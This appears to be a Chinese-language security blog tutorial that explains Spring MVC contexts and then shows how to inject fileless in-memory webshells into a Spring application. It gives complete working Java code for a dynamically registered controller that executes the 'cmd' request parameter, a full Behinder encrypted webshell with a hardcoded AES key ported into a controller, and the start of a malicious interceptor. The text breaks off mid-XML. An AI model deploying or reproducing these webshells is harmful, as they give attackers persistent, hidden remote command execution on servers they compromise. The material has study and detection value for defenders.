

## Spring Web 介绍
### Bean
bean 是Spring 框架的一个核心概念，它是构建程序的主干，并且是由Spring loC 容器负责实例化、配置、组装和管理的对象。
通俗来讲

- bean 是对象
- bean 被 loC容器管理
- Spring 应用由一个个bean构成
### ApplicationContext
Spring 框架中，BeanFactory 接口是 Spring loC容器的实际代表者
从下面的接口继承关系图可以看出，ApplicationContext接口继承了BeanFactory接口，并通过继承其他接口进一步扩展了基本容器的功能


因此，org.springframework.context.ApplicationContext接口也代表了 IoC容器 ，它负责实例化、定位、配置应用程序中的对象(bean)及建立这些对象间(beans)的依赖
IoC容器通过读取配置元数据来获取对象的实例化、配置和组装的描述信息。配置的零元数据可以用xml、Java注解或Java代码来表示。

### ContextLoaderListener 与 DispatcherServlet
下面是一个典型 Spring 应用的 web.xml 配置示例：
```xml
<web-app xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xmlns="http://java.sun.com/xml/ns/javaee"
         xsi:schemaLocation="http://java.sun.com/xml/ns/javaee http://java.sun.com/xml/ns/javaee/web-app_2_5.xsd"
         version="2.5">

    <display-name>HelloSpringMVC</display-name>

    <context-param>
        <param-name>contextConfigLocation</param-name>
        <param-value>/WEB-INF/applicationContext.xml</param-value>
    </context-param>

    <listener>
        <listener-class>org.springframework.web.context.ContextLoaderListener</listener-class>
    </listener>

    <servlet>
        <servlet-name>dispatcherServlet</servlet-name>
        <servlet-class>org.springframework.web.servlet.DispatcherServlet</servlet-class>
        <init-param>
            <param-name>contextConfigLocation</param-name>
            <param-value>/WEB-INF/dispatcherServlet-servlet.xml</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>

    <servlet-mapping>
        <servlet-name>dispatcherServlet</servlet-name>
        <url-pattern>/</url-pattern>
    </servlet-mapping>
</web-app>
```
在正式了解上面的配置前，先介绍下关于 Root Context 和 Child Context 的重要概念：

- Spring 应用中可以同时有多个 Context，其中只有一个 Root Context，剩下的全是 Child Context
- 所有Child Context都可以访问在 Root Context中定义的 bean，但是Root Context无法访问Child Context中定义的 bean
- 所有的Context在创建后，都会被作为一个属性添加到了 ServletContext中
#### ContextLoaderListener
ContextLoaderListener 主要被用来初始化全局唯一的Root Context，即 Root WebApplicationContext。
这个 Root WebApplicationContext 会和其他 Child Context 实例共享它的 IoC 容器，供其他 Child Context 获取并使用容器中的 bean。
回到 web.xml 中，其相关配置如下：
```xml
<context-param>
    <param-name>contextConfigLocation</param-name>
    <param-value>/WEB-INF/applicationContext.xml</param-value>
</context-param>

<listener>
    <listener-class>org.springframework.web.context.ContextLoaderListener</listener-class>
</listener>
```
依照规范，当没有显式配置 ContextLoaderListener 的 contextConfigLocation 时，程序会自动寻找 /WEB-INF/applicationContext.xml，作为配置文件，所以其实上面的 <context-param> 标签对其实完全可以去掉。
#### DispatcherServlet
DispatcherServlet 的主要作用是处理传入的web请求，根据配置的 URL pattern，将请求分发给正确的 Controller 和 View。
DispatcherServlet 初始化完成后，会创建一个普通的 Child Context 实例。

剩下的servlet 标签中，配置项如下
```xml
<servlet>
    <servlet-name>dispatcherServlet</servlet-name>
    <servlet-class>org.springframework.web.servlet.DispatcherServlet</servlet-class>
    <init-param>
        <param-name>contextConfigLocation</param-name>
        <param-value>/WEB-INF/dispatcherServlet-servlet.xml</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```
上面给 org.springframework.web.servlet.DispatcherServlet 类设置了个别名 dispatcherServlet ，并配置了它的 contextConfigLocation 参数值为 /WEB-INF/dispatcherServlet-servlet.xml
依照规范，当没有显式配置 contextConfigLocation 时，程序会自动寻找 /WEB-INF/<servlet-name>-servlet.xml，作为配置文件。因为上面的 <servlet-name> 是 dispatcherServlet，所以当没有显式配置时，程序依然会自动找到 /WEB-INF/dispatcherServlet-servlet.xml 配置文件
综上，可以了解到：每个具体的 DispatcherServlet 创建的是一个 Child Context，代表一个独立的 IoC 容器；而 ContextLoaderListener 所创建的是一个 Root Context，代表全局唯一的一个公共 IoC 容器
如果要访问和操作 bean ，一般要获得当前代码执行环境的IoC 容器 代表者 ApplicationContext

## 创建Spring MVC项目
这里使用maven创建spring mvc 项目，实现版本控制
这里选择maven-archetypes-webapp


这里记得选择本地配置好的源为aliyun的maven配置文件，这样会快一些


等待maven 下载好之后，就可以看到如下的目录结构


然后添加SpringMVC的相关包

```xml
<?xml version="1.0" encoding="UTF-8"?>

<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>

  <groupId>org.example</groupId>
  <artifactId>SpringMVC_Test</artifactId>
  <version>1.0-SNAPSHOT</version>
  <packaging>war</packaging>

  <name>SpringMVC_Test Maven Webapp</name>
  <!-- FIXME change it to the project's website -->
  <url>http://www.example.com</url>

  <properties>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    <maven.compiler.source>1.7</maven.compiler.source>
    <maven.compiler.target>1.7</maven.compiler.target>
    <spring.version>4.3.18.RELEASE</spring.version>
  </properties>

  <dependencies>
    <dependency>
      <groupId>junit</groupId>
      <artifactId>junit</artifactId>
      <version>4.11</version>
      <scope>test</scope>
    </dependency>
    <!--spring 核心包-->
    <!-- spring start -->
    <dependency>
      <groupId>org.springframework</groupId>
      <artifactId>spring-core</artifactId>
      <version>${spring.version}</version>
    </dependency>
    <dependency>
      <groupId>org.springframework</groupId>
      <artifactId>spring-web</artifactId>
      <version>${spring.version}</version>
    </dependency>
    <dependency>
      <groupId>org.springframework</groupId>
      <artifactId>spring-oxm</artifactId>
      <version>${spring.version}</version>
    </dependency>
    <dependency>
      <groupId>org.springframework</groupId>
      <artifactId>spring-tx</artifactId>
      <version>${spring.version}</version>
    </dependency>
    <dependency>
      <groupId>org.springframework</groupId>
      <artifactId>spring-jdbc</artifactId>
      <version>${spring.version}</version>
    </dependency>
    <dependency>
      <groupId>org.springframework</groupId>
      <artifactId>spring-webmvc</artifactId>
      <version>${spring.version}</version>
    </dependency>
    <dependency>
      <groupId>org.springframework</groupId>
      <artifactId>spring-aop</artifactId>
      <version>${spring.version}</version>
    </dependency>
    <dependency>
      <groupId>org.springframework</groupId>
      <artifactId>spring-context-support</artifactId>
      <version>${spring.version}</version>
    </dependency>
    <dependency>
      <groupId>org.springframework</groupId>
      <artifactId>spring-test</artifactId>
      <version>${spring.version}</version>
    </dependency>

    <!-- spring end -->
  </dependencies>

  <build>
    <finalName>SpringMVC_Test</finalName>
    <pluginManagement><!-- lock down plugins versions to avoid using Maven defaults (may be moved to parent pom) -->
      <plugins>
        <plugin>
          <artifactId>maven-clean-plugin</artifactId>
          <version>3.1.0</version>
        </plugin>
        <!-- see http://maven.apache.org/ref/current/maven-core/default-bindings.html#Plugin_bindings_for_war_packaging -->
        <plugin>
          <artifactId>maven-resources-plugin</artifactId>
          <version>3.0.2</version>
        </plugin>
        <plugin>
          <artifactId>maven-compiler-plugin</artifactId>
          <version>3.8.0</version>
        </plugin>
        <plugin>
          <artifactId>maven-surefire-plugin</artifactId>
          <version>2.22.1</version>
        </plugin>
        <plugin>
          <artifactId>maven-war-plugin</artifactId>
          <version>3.2.2</version>
        </plugin>
        <plugin>
          <artifactId>maven-install-plugin</artifactId>
          <version>2.5.2</version>
        </plugin>
        <plugin>
          <artifactId>maven-deploy-plugin</artifactId>
          <version>2.8.2</version>
        </plugin>
      </plugins>
    </pluginManagement>
  </build>
</project>

```
然后添加SpringMVC框架，右键项目，点击Add Framework Support


如果在Add framework support中找不到Spring，那是因为项目中可能已经存在Spring相关文件，但不一定是完善的。因此我们要将已经存在的Spring给删掉，重新添加，方法如下：
点击Project Structure，选择Facets，就会看到有一个Spring啦，右击它，点删除就行啦，然后再回到上面第3步重新Add framework support


Spring框架添加完之后，会看到目录下多了两个xml文件


下面开始配置web.xml

```xml
<web-app>
<display-name>HelloSpringMVC</display-name>
<context-param>
<param-name>contextConfigLocation</param-name>
<param-value>/WEB-INF/applicationContext.xml</param-value>
</context-param>
<listener>
<listener-class>org.springframework.web.context.ContextLoaderListener</listener-class>
</listener>
<servlet>
<servlet-name>dispatcher</servlet-name>
<servlet-class>org.springframework.web.servlet.DispatcherServlet</servlet-class>
<init-param>
<param-name>contextConfigLocation</param-name>
<param-value>/WEB-INF/dispatcher-servlet.xml</param-value>
</init-param>
<load-on-startup>1</load-on-startup>
</servlet>
<servlet-mapping>
<servlet-name>dispatcher</servlet-name>
<url-pattern>/</url-pattern>
</servlet-mapping>
</web-app>
```
配置dispatcher-servlet.xml，负责mvc的配置
```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:context="http://www.springframework.org/schema/context" xmlns:mvc="http://www.springframework.org/schema/mvc" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context.xsd http://www.springframework.org/schema/mvc http://www.springframework.org/schema/mvc/spring-mvc.xsd">
    <mvc:annotation-driven/>
    <context:component-scan base-package="com.spring.Controller"/>
    <bean class="org.springframework.web.servlet.view.InternalResourceViewResolver">
        <!--  视图的路径  -->
        <property name="prefix" value="/WEB-INF/jsp/"/>
        <!--  视图名称后缀   -->
        <property name="suffix" value=".jsp"/>
    </bean>
</beans>
```
然后注意，需要在main目录中添加java、resource文件夹，并且在java目录下，添加包名`com.spring.Controller`,因为我们在`dispatcher-servlet.xml`中添加了 `<context:component-scan base-package="com.spring.Controller"/>`这个意思就是扫描`com.spring.Controller`包下的Controller，这样才能访问到写的Controller


最后再配置一下本地Tomcat


出现了warning，此时点击fix即可，或者


## Controller
### 手动注册Controller
首先查看dispatcher-servlet.xml
```xml
<bean class="org.springframework.web.servlet.view.InternalResourceViewResolver">
  <!--  视图的路径  -->
  <property name="prefix" value="/WEB-INF/jsp/"/>
  <!--  视图名称后缀   -->
  <property name="suffix" value=".jsp"/>
</bean>
```
视图路径在`/WEB-INF/jsp/`目录下
在`/WEB-INF/jsp/`目录下创建hello.jsp，`isELIgnored="false"`这里一定要添加，否则model传过来的值，在高版本的SpringMVC中不会解析[EL表达式](https://www.yuque.com/da-labs/secnotes/rgzed3)
```java
<%--
  Created by IntelliJ IDEA.
  User: aaron
  Date: 2022/2/18
  Time: 19:08
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" isELIgnored="false" %>
<html>
<head>
    <title>Title</title>
</head>
<body>
<h1>hello world ,${name}</h1>
</body>
</html>

```
一个正常的 Controller 示例代码如下，当用浏览器访问 /hi/say路径时，会在定义好的 View 中输出 hello world,aaron 字样
```java
@Controller
@RequestMapping("/hi")
public class HelloController {
    @RequestMapping("say")
    public String say(Model model){
        model.addAttribute("name","aaron");
        return "hello";
    }
}

```


### 获取当前代码运行的上下文环境（dispatcherServlet）
> 在这里我通过使用[LandGrey@观星实验室](https://www.anquanke.com/post/id/198886)的方法获取到Root WebApplicationContext，注入也能成功，但是会报错，提示没有dispatcherServlet，也就是不能分发给对应的Controller，由于Root WebApplicationContext是无法访问到Child WebApplicationContext 定义的bean，applicationContext.xml全局配置也没有搞定，希望有大佬可以给我applicationContext.xml的相关配置，以及如何成功利用

这里使用[LandGrey@观星实验室](https://www.anquanke.com/post/id/198886)大佬的后两种获取Child Context的方法
#### RequestContextUtils
```java
WebApplicationContext context = RequestContextUtils.getWebApplicationContext(((ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest());
```
这里使用`RequestContextUtils`中的`WebApplicationContext getWebApplicationContext(ServletRequest request)`方法，通过 `ServletRequest`类的实例来获取WebApplicationContext
当拿到了这个`WebApplicationContext`之后，就需要在当前的context里注册Controller，然后给这个Controller绑定对应可解析的url，以及方法
```java
public class InjectController {
    public InjectController() {
        // 从context中获得 RequestMappingHandlerMapping 的实例
        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping.class);
        // 通过反射获得自定义 controller 中的 Method 对象
        Method method = Class.forName("com.spring.Controller.InjectController").getMethod("test");
        // 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/ccc");
        // 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        com.spring.Controller.InjectController injectToController = new com.spring.Controller.InjectController();
        requestMappingHandlerMapping.registerMapping(info, injectToController, method);
    }
    public void test(){
        xxx
    }
}
```
在test方法中，需要实现我们的webshell的逻辑，首先需要完善webshell
```java
java.lang.Runtime.getRuntime().exec("command");
```
然后在将command变成我们可控制的，也就是传入可控参数，这时就需要获取当前的request和response，command 为`request.getParamer("cmd")`就为可控参数了，所以就是获取request，response的问题了，这里我们使用spring提供获取request，response的方法，这里使用如下方法
```java
HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
```
test方法可以使用如下表示
```java
public void test() throws IOException {
        // 获取request和response对象
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        // 获取cmd参数并执行命令
        java.lang.Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
```
#### getAttribute
```java
WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
```
同上，因为获取的都是Child WebApplicationContext
### 阻止重复添加controller (非必须)
这里使用[bitterz](https://www.cnblogs.com/bitterz/p/14820898.html#11-fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%92%8Cjndi)大佬的代码
上面获取的requestMappingHandlerMapping中有一个mappingRegistry成员对象，而该对象下的urlLookup属性保存了已经注册的所有url路径，对mappingHandlerMapping进一步后发现，以上对象和属性都是私有的，且mappingRegistry并非mappingHandlerMapping中创建的，而是来自于基类AbstractHandlerMethodMapping。
AbstractHandlerMethodMapping基类的getMappingRegistry方法可以获取mappingRegistry，而urlLookup是其内部类MappingRegistry的私有属性，可以通过反射获取，反射获取urlLookup和判断我们给定的url是否被注册的代码块如下
```java
// 获取abstractHandlerMethodMapping对象，以便反射调用其getMappingRegistry方法
AbstractHandlerMethodMapping abstractHandlerMethodMapping = context.getBean(AbstractHandlerMethodMapping.class);
// 反射调用getMappingRegistry方法
Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
method.setAccessible(true);
Object  mappingRegistry = (Object) method.invoke(abstractHandlerMethodMapping);
// 反射获取urlLookup属性
Field field = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry").getDeclaredField("urlLookup");
field.setAccessible(true);
Map urlLookup = (Map) field.get(mappingRegistry);
// 判断我们想要注入的路径是否被已经存在
Iterator urlIterator = urlLookup.keySet().iterator();
List<String> urls = new ArrayList();
while (urlIterator.hasNext()){
    String urlPath = (String) urlIterator.next();
    if ("/malicious".equals(urlPath)){
        System.out.println("url已存在");
        return;
    }
}
```
### 实例(添加Controller)
#### 0x1 注入普通马
在上述知道了具体的操作方法，我在这里使用一个手动注册的Controller，里面包含恶意代码，这样来模拟一下无文件内存马
```java
package com.spring.Controller;

import org.springframework.beans.factory.NoSuchBeanDefinitionException;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.handler.AbstractHandlerMethodMapping;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.ArrayList;
import java.util.Iterator;
import java.util.List;
import java.util.Map;

@Controller
public class HelloWorldController {
    public HelloWorldController() {}
    public void test() throws IOException {
        // 获取request和response对象
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        // 获取cmd参数并执行命令
        java.lang.Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    @RequestMapping(value = "/hello")
    public String hello(Model model) throws NoSuchBeanDefinitionException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, NoSuchFieldException {
        WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 2. 从context中获得 RequestMappingHandlerMapping 的实例
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 判断url是否存在
        AbstractHandlerMethodMapping abstractHandlerMethodMapping = context.getBean(AbstractHandlerMethodMapping.class);
        Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        method.setAccessible(true);
        Object  mappingRegistry = (Object) method.invoke(abstractHandlerMethodMapping);
        Field field = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry").getDeclaredField("urlLookup");
        field.setAccessible(true);
        Map urlLookup = (Map) field.get(mappingRegistry);

        Iterator urlIterator = urlLookup.keySet().iterator();
        List<String> urls = new ArrayList();
        while (urlIterator.hasNext()){
            String urlPath = (String) urlIterator.next();
            if ("/test".equals(urlPath)){
                System.out.println("url已存在");
                return "hello";
            }
        }
        // 可选步骤，判断url是否存在
        // 2. 通过反射获得自定义 controller 中test的 Method 对象
        Method method2 = HelloWorldController.class.getMethod("test");
        // 3. 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/test");
        // 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 5. 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        // 创建用于处理请求的对象
        HelloWorldController injectToController = new HelloWorldController();
        mappingHandlerMapping.registerMapping(info, injectToController, method2);
        model.addAttribute("name","aaron");
        return "hello";
    }
}

```
目录结构如下，其中`com.spring.Controller`包的俩controller分别是两种获取Child WebApplicationContext的方法实现


在代码中可以看到，访问/hello，就会执行hello方法，然后就会动态注入url=>/test，以及controller(test方法)


#### 0x2 注入冰蝎马
冰蝎马如下
```java
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%>
<%!
class U extends ClassLoader{
	U(ClassLoader c){
    	super(c);
    }  //构造函数

	public Class g(byte []b){
		return super.defineClass(b,0,b.length);  // 调用父类的defineClass函数
	}
}
%>

<%
if (request.getMethod().equals("POST"))
	{
		String k="e45e329feb5d925b";
		session.putValue("u",k);
		Cipher c=Cipher.getInstance("AES");
		c.init(2,new SecretKeySpec(k.getBytes(),"AES"));
		new U(ClassLoader.class.getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
	}
%>
```
可以看出，该jsp的核心功能有三点

- 为了方便地使用defineClass，创建了U这个类继承ClassLoader；
- 使用java自带的包，解密AES加密数据
- 使用defineClass加载AES解密后字节码，获得一个恶意类，利用newInstance创建这个类的实例，并调用equals方法

要特别注意pageContext这个对象，它是jsp文件运行过程中自带的对象，可以获取request/response/session这三个包含页面信息的重要对象，对应pageContext有getRequest/getResponse/getSession方法，所以注入的controller代码中，可以将pageContext换成一个Map，手动添加key和value即可。
冰蝎马需要继承ClassLoader后调用父类的defineClass，当然也可以用反射，但是这样更方便而已。对恶意类稍加改造，继承ClassLoader、定义新的构造函数、增加g函数、添加冰蝎的服务端代码
##### 基本逻辑
```java
public HttpServletResponse test() throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidKeyException, IOException, BadPaddingException, IllegalBlockSizeException, IllegalAccessException, InstantiationException {
    HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
    HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
    HttpSession session = request.getSession();
    if (request.getMethod().equals("POST")) {
        session.setAttribute("u", this.k);
        Cipher c = Cipher.getInstance("AES");
        c.init(2, new SecretKeySpec(this.k.getBytes(), "AES"));
        HelloWorldController helloWorldController = new HelloWorldController(ClassLoader.getSystemClassLoader());
        String base64String = request.getReader().readLine();
        byte[] bytesEncrypted = new sun.misc.BASE64Decoder().decodeBuffer(base64String);
        byte[] bytesDecrypted = c.doFinal(bytesEncrypted);
        Class newClass = helloWorldController.g(bytesDecrypted);
        Map<String, Object> pageContext = new HashMap<String, Object>();
        pageContext.put("session", session);
        pageContext.put("request", request);
        pageContext.put("response", response);
        newClass.newInstance().equals(pageContext);
    }
    return response;
}
```
完整代码如下：
```java
package com.spring.Controller;

import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.handler.AbstractHandlerMethodMapping;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.util.*;


@Controller
public class HelloWorldController extends ClassLoader {
    private final String uri = "/test";
    private final String k = "e45e329feb5d925b";

    public HelloWorldController(ClassLoader c) {
        super(c);
    }

    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);  // 调用父类的defineClass函数
    }

    public HelloWorldController() {
    }

    public HttpServletResponse test() throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidKeyException, IOException, BadPaddingException, IllegalBlockSizeException, IllegalAccessException, InstantiationException {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        HttpSession session = request.getSession();
        if (request.getMethod().equals("POST")) {
            session.setAttribute("u", this.k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(this.k.getBytes(), "AES"));
            HelloWorldController helloWorldController = new HelloWorldController(ClassLoader.getSystemClassLoader());
            String base64String = request.getReader().readLine();
            byte[] bytesEncrypted = new sun.misc.BASE64Decoder().decodeBuffer(base64String);
            byte[] bytesDecrypted = c.doFinal(bytesEncrypted);
            Class newClass = helloWorldController.g(bytesDecrypted);
            Map<String, Object> pageContext = new HashMap<String, Object>();
            pageContext.put("session", session);
            pageContext.put("request", request);
            pageContext.put("response", response);
            newClass.newInstance().equals(pageContext);
        }
        return response;
    }

    @RequestMapping(value = "/hello")
    public String hello(Model model) throws ClassNotFoundException, InvocationTargetException, IllegalAccessException, NoSuchMethodException, NoSuchFieldException {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 2. 从context中获得 RequestMappingHandlerMapping 的实例
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 判断url是否存在
        AbstractHandlerMethodMapping abstractHandlerMethodMapping = context.getBean(AbstractHandlerMethodMapping.class);
        Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        method.setAccessible(true);
        Object mappingRegistry = (Object) method.invoke(abstractHandlerMethodMapping);
        Field field = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry").getDeclaredField("urlLookup");
        field.setAccessible(true);
        Map urlLookup = (Map) field.get(mappingRegistry);

        Iterator urlIterator = urlLookup.keySet().iterator();
        List<String> urls = new ArrayList();
        while (urlIterator.hasNext()) {
            String urlPath = (String) urlIterator.next();
            if ("/test".equals(urlPath)) {
                System.out.println("url已存在");
                return "hello";
            }
        }
        // 可选步骤，判断url是否存在
        // 2. 通过反射获得自定义 controller 中test的 Method 对象
        Method method2 = HelloWorldController.class.getMethod("test");
        // 3. 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/test");
        // 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 5. 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        // 创建用于处理请求的对象
        HelloWorldController injectToController = new HelloWorldController();
        mappingHandlerMapping.registerMapping(info, injectToController, method2);
        model.addAttribute("name", "aaron");
        return "hello";
    }
}

```
##### 问题
为什么会添加一个空构造函数（缺省构造函数）？
由于在当前类里面定义了“有参构造方法”，这样的话在实例化的时候，没有传参，就会出现此异常，需要添加一个覆盖原先的“无参构造方法”，所以在类里面加上“无参构造方法”就可以解决问题了
sun.misc.BASE64Decoder().decodeBuffer(base64String) 
jdk11+不支持，使用jdk8可直接使用，如果目标环境是jdk8+，那么建议自己写一个base64解码器来解码
ClassLoader.getSystemClassLoader()
如果随意给定某个继承自ClassLoader的类，可能会出现报错`java.lang.LinkageError : attempted duplicate class definition for name`。这是因为需要使用getSystemClassLoader()获取创建ClassLoader时需要添加委派父级


## 拦截器
拦截器(Interceptor)在开发中处于非常重要的环节，全局拦截器可以针对接口授权情况进行放行或拦截，也可以进行身份验证，不满足则直接拦截，所有的请求都会先经过拦截器，然后才到达Controller，执行，最后返回，所以如果能动态注册一个拦截器，对所有的请求进行拦截，等到得到了我们设置的参数，再进行操作
### 手工创建拦截器
首先创建一个类
```java
package com.spring.Interceptor;

import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

public class TestInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response,Object handler){
        String code = request.getParameter("code");
        if(code !=null){
            try{
                Runtime.getRuntime().exec("calc.exe");
            }catch (IOException e){
                e.printStackTrace();
            }
        }
        return true;
    }
}

```
然后在dispatcher-Servlet.xml 配置
```xml
<mvc:interceptors>
  <mvc:interceptor>
